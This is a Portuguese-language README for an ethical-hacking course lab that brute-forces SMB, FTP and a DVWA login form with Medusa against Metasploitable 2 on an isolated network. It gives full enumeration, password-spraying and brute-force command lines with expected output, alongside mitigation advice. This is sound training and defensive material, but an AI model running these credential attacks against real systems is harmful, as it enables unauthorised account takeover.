









# 🛡️ Lab de Força Bruta com Medusa — SMB, FTP e DVWA

> Projeto do desafio de **Ethical Hacking** da [DIO](https://www.dio.me):
> Kali Linux + Medusa + Metasploitable 2 (com bônus de FTP e DVWA).

🌍 **English version:** [README.en.md](README.en.md)

---

## ⚠️ Aviso ético

Todo o conteúdo deste repositório foi produzido em um **laboratório isolado e controlado**, com máquinas que eu possuo e que foram **projetadas intencionalmente para serem vulneráveis** (Metasploitable 2 e DVWA).

**Nenhuma técnica aqui descrita deve ser usada contra sistemas sem autorização explícita para testar.** Atacar sistemas de terceiros sem autorização é crime (no Brasil, art. 154-A do Código Penal — invasão de dispositivo informático).

O objetivo é **aprender para defender**: entender a lógica do "tentativa e erro" é o que permite criar políticas de senha melhores, configurar bloqueio de contas e detectar esses ataques nos logs.

---

## 📑 Índice

1. [Sobre o projeto](#-sobre-o-projeto)
2. [Objetivos de aprendizagem](#-objetivos-de-aprendizagem)
3. [Arquitetura do laboratório](#-arquitetura-do-laboratório)
4. [Preparação do ambiente](#-preparação-do-ambiente)
5. [Fase 1 — Enumeração](#-fase-1--enumeração)
6. [Fase 2 — Wordlists](#-fase-2--wordlists)
7. [Fase 3 — Ataque SMB com Medusa](#-fase-3--ataque-smb-com-medusa)
8. [Fase 4 — Validação com smbclient](#-fase-4--validação-com-smbclient)
9. [Bônus A — Força bruta em FTP](#-bônus-a--força-bruta-em-ftp)
10. [Bônus B — Formulário web (DVWA)](#-bônus-b--formulário-web-dvwa)
11. [Mitigação e boas práticas](#-mitigação-e-boas-práticas)
12. [Ferramentas clássicas na era de IA e MFA](#-ferramentas-clássicas-na-era-de-ia-e-mfa)
13. [Falsos-positivos](#-falsos-positivos)
14. [Evidências](#-evidências)
15. [Estrutura do repositório](#-estrutura-do-repositório)
16. [Como reproduzir / publicar](#-como-reproduzir--publicar)
17. [Referências](#-referências)

---

## 🔎 Sobre o projeto

Este projeto simula, em ambiente controlado, o fluxo completo de um ataque de **força bruta a credenciais SMB** — um dos vetores mais clássicos de comprometimento de contas corporativas:

```
enumeração ──► wordlists ──► ataque paralelo (Medusa) ──► validação do acesso (smbclient) ──► mitigação
```

A vítima é o **Metasploitable 2**, uma VM Linux propositalmente vulnerável com Samba mal configurado. O atacante é o **Kali Linux** com a ferramenta **Medusa**, que executa tentativas de autenticação **paralelas** (modular, rápido e com suporte a dezenas de protocolos).

Como bônus, o mesmo raciocínio é aplicado a **FTP** e a um **formulário web (DVWA)** — incluindo por que formulários modernos com token CSRF/anti-CSRF dificultam (ou até inviabilizam) brute force simples de formulário.

## 🎯 Objetivos de aprendizagem

- Compreender ataques de força bruta em serviços diferentes (SMB, FTP, Web);
- Usar Kali Linux + Medusa para auditoria em ambiente controlado;
- Criar wordlists de usuários e senhas a partir de enumeração;
- Validar acessos obtidos (evitando falsos-positivos);
- Reconhecer vulnerabilidades comuns e propor mitigações;
- Documentar e compartilhar a jornada no GitHub como portfólio técnico.

---

## 🧱 Arquitetura do laboratório

```
┌─────────────────────┐                          ┌─────────────────────────┐
│     Kali Linux      │    rede host-only        │    Metasploitable 2     │
│     (atacante)      │   192.168.56.0/24        │   (alvo vulnerável)     │
│                     │ ◄──────────────────────► │                         │
│   192.168.56.10     │  SMB 139/445 · FTP 21    │     192.168.56.20       │
│  Medusa · nmap ·    │  HTTP 80 (DVWA)          │  Samba · vsftpd ·       │
│  smbclient          │                          │  Apache + DVWA          │
└─────────────────────┘                          └─────────────────────────┘
```

| Papel | VM | IP (exemplo) | Serviços-alvo |
|---|---|---|---|
| Atacante | Kali Linux | `192.168.56.10` | medusa, nmap, enum4linux, smbclient |
| Alvo | Metasploitable 2 | `192.168.56.20` | Samba (139/445), vsftpd (21), Apache+DVWA (80) |

> Os IPs acima são exemplos — os seus podem variar. Confirme com `ip a` (Kali) e `ifconfig` (Metasploitable).

## ⚙️ Preparação do ambiente

### 1. Máquinas virtuais (VirtualBox)

1. Baixe e importe:
   - [Kali Linux](https://www.kali.org/get-kali/) — imagem VirtualBox pronta;
   - [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/) — credenciais padrão de login: `msfadmin` / `msfadmin`.
2. Descompacte e registre o disco do Metasploitable como uma nova VM.

### 2. Rede host-only (isolada)

1. No VirtualBox: **File → Tools → Network Manager → Host-only Networks** → verifique se existe `vboxnet0` (ex.: `192.168.56.1/24`) e mantenha o **DHCP Server habilitado**;
2. Nas **duas VMs**: Configurações → Rede → Adaptador 1 → **Attached to: Host-only Adapter** (`vboxnet0`);
3. Suba as duas VMs e descubra os IPs:

```bash
# no Kali
ip a show eth0

# no Metasploitable (login: msfadmin / msfadmin)
ifconfig eth0
```

4. Teste a conectividade (do Kali para o alvo):

```bash
ping -c 3 192.168.56.20
```

> 💡 **Por que host-only?** A rede fica isolada do seu computador e da internet: o ataque só alcança o laboratório. Nunca deixe o Metasploitable em modo Bridged/NAT aberto para outras redes.

### 3. Ferramentas no Kali

```bash
sudo apt update
sudo apt install -y medusa enum4linux smbclient
```

---

## 🔍 Fase 1 — Enumeração

Antes de qualquer força bruta, é preciso saber **o que existe** e **quais contas existem**. Enumeração transforma chute em informação — e wordlists melhores.

### Portas e versões

```bash
nmap -sV -p 139,445 192.168.56.20
```

Saída esperada (Samba no Metasploitable):

```
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Usuários SMB (null session)

O Samba antigo do Metasploitable aceita **sessões nulas** (anônimas), o que permite listar usuários — exatamente o tipo de má configuração que viabiliza password spraying:

```bash
# via script NSE do nmap
nmap --script smb-enum-users.nse -p 445 192.168.56.20

# enumeração completa (usuários, shares, grupos, políticas)
enum4linux -a 192.168.56.20 | tee results/02-enum4linux.txt
```

> 💡 Em Kali mais recentes existe também o fork mantido: `enum4linux-ng -A <IP>`.

**O que procurar na saída:** usuários do sistema (`msfadmin`, `user`, `service`, `postgres`, `sys`, `klog`, `vagrant`...). Eles alimentam a wordlist da fase seguinte.

📸 *Evidência:*  e 

Script da fase: [`scripts/01-enumeracao.sh`](scripts/01-enumeracao.sh)

---

## 📝 Fase 2 — Wordlists

Duas listas simples e didáticas vivem em [`wordlists/`](wordlists/):

- **`users.txt`** — usuários descobertos na enumeração + nomes comuns de conta;
- **`passwords.txt`** — senhas fracas clássicas + **senhas iguais ao usuário** (uma das piores práticas possíveis).

```bash
wc -l wordlists/users.txt wordlists/passwords.txt
head wordlists/passwords.txt
```

📸 *Evidência:* 

> 💡 **Expandindo o estudo:** para um teste mais realista, use a wordlist clássica do Kali:
> ```bash
> sudo gunzip /usr/share/wordlists/rockyou.txt.gz
> # e no Medusa: -P /usr/share/wordlists/rockyou.txt
> ```
> E enriqueça `users.txt` com o resultado da enumeração:
> ```bash
> echo "usuario_descoberto" >> wordlists/users.txt
> ```

O tamanho importa: com 21 usuários × 32 senhas, o Medusa fará até **672 tentativas** — em paralelo, isso leva segundos. Com listas gigantes, o tempo e o risco de bloqueio crescem muito (ver [mitigação](#-mitigação-e-boas-práticas)).

---

## 💥 Fase 3 — Ataque SMB com Medusa

O módulo do Medusa para SMB é o **`smbnt`**. Três modalidades de teste:

### 3.1 Password spraying — uma senha contra muitos usuários

Estratégia real dos atacantes: **poucas senhas comuns, muitos usuários** (evita travar contas por excesso de tentativa em um único usuário).

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -p '123456' \
       -M smbnt -n 445 \
       -t 4 -v 4 \
       -o results/medusa-spray.txt
```

### 3.2 Força bruta completa — todos os usuários × todas as senhas

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M smbnt -n 445 \
       -t 4 -T 8 -v 4 \
       -o results/medusa-smb.txt
```

### 3.3 Senha nula e senha = usuário (`-e ns`)

Teste que costuma derrubar servidores mal configurados em segundos:

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -e ns \
       -M smbnt -n 445 -v 4
```

`n` = senha vazia · `s` = senha igual ao nome do usuário.

### Parâmetros-chave

| Parâmetro | Significado |
|---|---|
| `-h` / `-H` | host alvo / arquivo de hosts |
| `-U` / `-P` | arquivo de usuários / arquivo de senhas |
| `-p` / `-u` | uma senha fixa / um usuário fixo (spray) |
| `-M smbnt` | módulo de ataque (SMB/NT) |
| `-n 445` | porta do serviço |
| `-e ns` | testar senha nula (n) e senha=usuário (s) |
| `-t` | tarefas **paralelas por host** (padrão 16 — no lab, 4 a 8) |
| `-T` | total de tarefas paralelas (todos os hosts) |
| `-v 4` | verbosidade (mostra cada tentativa) |
| `-o` | grava o log completo em arquivo |
| `-f` / `-F` | parar após o 1º acerto no host / em qualquer host |

### Saída esperada

Com `msfadmin` e `msfadmin` presentes nas listas:

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.20 User: msfadmin Password: msfadmin [VALID]
```

> ⚠️ Se o módulo `smbnt` apresentar erro contra o Samba antigo, tente `-n 139` (NetBIOS clássico).

📸 *Evidências:*  · 

Scripts da fase: [`scripts/02-medusa-smb.sh`](scripts/02-medusa-smb.sh)

---

## ✅ Fase 4 — Validação com smbclient

**Nunca confie cegamente no `ACCOUNT FOUND`.** Um "acerto" pode ser conta desabilitada, sessão convidada ou falso-positivo do módulo. Validar o acesso é parte do teste:

```bash
# 1) listar os compartilhamentos acessíveis com a credencial encontrada
smbclient -L //192.168.56.20/ -U msfadmin
# senha: msfadmin

# 2) entrar em um share e listar arquivos (acesso real)
smbclient //192.168.56.20/tmp -U msfadmin
smb: \> ls
smb: \> exit
```

Se o `smbclient` lista shares e permite navegar, o acesso está **confirmado** — o ciclo do ataque se fecha:

```
enumeração → wordlists → medusa (VALID) → smbclient (acesso real) → evidência documentada
```

📸 *Evidências:*  · 

Script da fase: [`scripts/03-validacao-smbclient.sh`](scripts/03-validacao-smbclient.sh)

---

## 🎁 Bônus A — Força bruta em FTP

O Metasploitable 2 roda **vsftpd** na porta 21. O módulo do Medusa é o `ftp`:

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M ftp -n 21 \
       -t 4 -v 4 \
       -o results/medusa-ftp.txt
```

Validação do acesso:

```bash
ftp 192.168.56.20
# login: msfadmin / msfadmin
ftp> ls
ftp> bye
```

📸 *Evidência:* 

Script: [`scripts/04-bonus-ftp.sh`](scripts/04-bonus-ftp.sh)

---

## 🎁 Bônus B — Formulário web (DVWA)

O Metasploitable 2 já traz o **DVWA (Damn Vulnerable Web Application)** em `http://<IP_DO_ALVO>/dvwa/` (login padrão: `admin` / `password` — configure **DVWA Security: Low**).

O Medusa tem o módulo `http` para formulários POST clássicos:

```bash
medusa -h 192.168.56.20 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M http \
       -m PAGE:'/dvwa/login.php' \
       -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
       -m DENY-SIGNAL:'Login failed' \
       -t 4 -v 4
```

- `PAGE` → endpoint que recebe o POST;
- `FORM` → campos do formulário; `^USER^` e `^PASS^` são os placeholders do Medusa;
- `DENY-SIGNAL` → texto presente na resposta quando o login **falha**.

### ⚡ A limitação importante: token CSRF

As versões atuais do DVWA inserem um campo oculto **`user_token`** (anti-CSRF) no formulário de login. Sem esse token, o servidor rejeita a tentativa — e o Medusa **não resolve o token sozinho**. Resultado: o comando acima falha mesmo com a senha correta.

Isso não é um bug do Medusa: é **a mitigação funcionando**. Alternativas para estudo:

1. **Burp Suite → Intruder** em modo *Pitchfork*, com extração do `user_token` de cada resposta;
2. Script próprio (ex.: Python `requests`) que faz *GET* no login, extrai o token com regex e envia o *POST* com ele;
3. Desabilitar a verificação no código do DVWA **apenas para demonstrar o brute force puro** (e voltar depois).

> 🧠 **Lição:** formulários modernos com token anti-CSRF (e, mais ainda, com MFA) quebram o brute force "ingênuo" de formulário. A defesa ganha, mas o atacante adapta — por isso auditoria exige entender a aplicação, não só disparar ferramenta.

📸 *Evidência:* 

Script: [`scripts/05-bonus-dvwa.sh`](scripts/05-bonus-dvwa.sh)

---

## 🛡️ Mitigação e boas práticas

| Vetor observado no lab | Medida de defesa |
|---|---|
| Senha vazia / senha igual ao usuário (`-e ns`) | Política de senha com **mínimo de comprimento** (NIST SP 800-63B: priorize **comprimento**, não complexidade exótica) + verificação contra listas de senhas vazadas |
| Força bruta em SMB/FTP | **Bloqueio progressivo** de conta ou atraso após N falhas; **MFA** para acessos remotos |
| Password spraying | Alerta por **anomalia**: muitas falhas em vários usuários vindas de uma mesma origem (SIEM) |
| Enumeração via null session | Desabilitar sessões anônimas (Samba: `restrict anonymous = 2`; Windows: *"Do not allow anonymous enumeration of SAM accounts"*) |
| Serviço exposto na rede | **Segmentação** e firewall: SMB/FTP não devem ser alcançáveis fora do segmento correto; VPN para acesso remoto |
| SMB legível/gravável por qualquer um | Revisar shares e permissões; princípio do **menor privilégio** |
| Detecção | Monitorar falhas de autenticação (Linux: `auth.log`; Windows: **Event ID 4625**); ferramentas como **fail2ban** |
| Protocolo antigo | Desativar **SMBv1** e serviços legados não utilizados (FTP → SFTP/FTPS) |

Regra de ouro: **defesa em profundidade** — nenhuma medida isolada resolve; o conjunto aumenta demais o custo do atacante.

---

## 🤖 Ferramentas clássicas na era de IA e MFA

Por que estudar Medusa/nmap/smbclient quando existem IA e MFA?

1. **Credenciais continuam sendo o alvo nº 1.** Relatórios como o Verizon DBIR seguem apontando uso/roubo de credenciais entre os vetores iniciais mais frequentes de incidentes. IA acelera phishing e geração de wordlists, mas o alvo **continua sendo identidade e senha**.
2. **MFA mitiga — não elimina.** Existem ataques de *MFA fatigue*, *SIM swap*, proxy de phishing (Evilginx) e tokens roubados. O MFA forte é essencial, mas quem entende a autenticação por baixo dos panos consegue implementá-lo e auditá-lo de verdade.
3. **Defender exige pensar como atacante.** Saber o que o Medusa faz (paralelismo, módulos, `-e ns`, spray) é o que permite configurar lockout, criar detecção de spraying e fazer testes de qualidade.
4. **Fundamentos envelhecem devagar.** Protocolos SMB, FTP e formulários HTTP existem há décadas e seguirão existindo. A ferramenta muda; a lógica do tentativa-e-erro não.
5. **IA no lado do defensor também.** A mesma IA que gera wordlists ajuda a escrever regras de detecção, analisar logs em escala e revisar políticas de senha. Quem domina o fundo técnico extrai mais valor da ferramenta.

---

## 🧯 Falsos-positivos

Um `ACCOUNT FOUND` não é sinônimo de acesso. Cuidados que apliquei no lab:

- **Sempre validar manualmente** com `smbclient`/`ftp` — é a Fase 4 deste projeto;
- **Senha nula em Samba com `map to guest`**: o Medusa pode reportar sucesso em uma "sessão convidada" sem acesso real aos dados;
- **Contas desabilitadas** podem autenticar no protocolo mas não têm privilégio útil;
- **`DENY-SIGNAL` mal ajustado** no módulo `http` classifica tudo como válido (ou inválido) — teste com uma credencial **conhecida como correta** e uma **sabidamente errada** antes do ataque real;
- **Lockout no meio do teste** mascara resultados (tudo passa a falhar) — em lab não há lockout; em cliente, o teste pode *causar* lockout massivo: combine janelas e limites antes;
- **Higiene de wordlist**: remover duplicatas (`sort -u`) evita tentativas repetidas e logs poluídos;
- **Registrar tudo com `-o`** e guardar o log como evidência auditável.

---

## 📸 Evidências

As capturas de tela devem ficar em [`images/`](images/):

| # | Arquivo | O que capturar | Fase |
|---|---|---|---|
| 01 | `01-nmap-smb.png` | Portas 139/445 abertas | Enumeração |
| 02 | `02-enum4linux-users.png` | Usuários extraídos | Enumeração |
| 03 | `03-wordlists.png` | `wc -l` e `head` das listas | Wordlists |
| 04 | `04-medusa-spray.png` | Spray em execução | Ataque SMB |
| 05 | `05-medusa-found.png` | `ACCOUNT FOUND ... [VALID]` | Ataque SMB |
| 06 | `06-smbclient-list.png` | `smbclient -L` | Validação |
| 07 | `07-smbclient-tmp.png` | `ls` dentro do share | Validação |
| 08 | `08-medusa-ftp.png` | Acerto no FTP | Bônus FTP |
| 09 | `09-dvwa-login.png` | Tentativas no DVWA | Bônus DVWA |

---

## 📁 Estrutura do repositório

```
dio-medusa-bruteforce-lab/
├── README.md            ← este arquivo (PT-BR)
├── README.en.md         ← versão em inglês
├── wordlists/
│   ├── users.txt        ← usuários (enumeração + comuns)
│   └── passwords.txt    ← senhas fracas didáticas
├── scripts/
│   ├── 01-enumeracao.sh            ← nmap + enum4linux
│   ├── 02-medusa-smb.sh            ← spray, full brute force, -e ns
│   ├── 03-validacao-smbclient.sh   ← confirmação do acesso
│   ├── 04-bonus-ftp.sh             ← brute force FTP
│   └── 05-bonus-dvwa.sh            ← formulário web + limitação CSRF
├── images/              ← capturas de tela das evidências
└── results/             ← logs do Medusa (criado pelos scripts; não versionar)
```

---

## 🔁 Como reproduzir / publicar

```bash
# 1. clone
git clone https://github.com/<seu-usuario>/dio-medusa-bruteforce-lab.git
cd dio-medusa-bruteforce-lab

# 2. permissão de execução nos scripts
chmod +x scripts/*.sh

# 3. rode as fases na ordem (no Kali, com o lab de pé)
./scripts/01-enumeracao.sh 192.168.56.20
./scripts/02-medusa-smb.sh 192.168.56.20
./scripts/03-validacao-smbclient.sh 192.168.56.20
./scripts/04-bonus-ftp.sh 192.168.56.20
./scripts/05-bonus-dvwa.sh 192.168.56.20

# 4. não versione logs/results
echo "results/" >> .gitignore
```

---

## 📚 Referências

- [Kali Linux — site oficial](https://www.kali.org/)
- [Metasploitable 2 — guia da Rapid7](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [Medusa — repositório oficial](https://github.com/foospidy/Medusa)
- [DVWA — Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- [Nmap — manual oficial](https://nmap.org/book/man.html)
- [smbclient — man page](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
- [NIST SP 800-63B — Diretrizes de autenticação](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [OWASP — Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [Verizon DBIR — Data Breach Investigations Report](https://www.verizon.com/business/resources/reports/dbir/)

---

⭐ Se este material te ajudou, considere dar uma estrela no repositório!
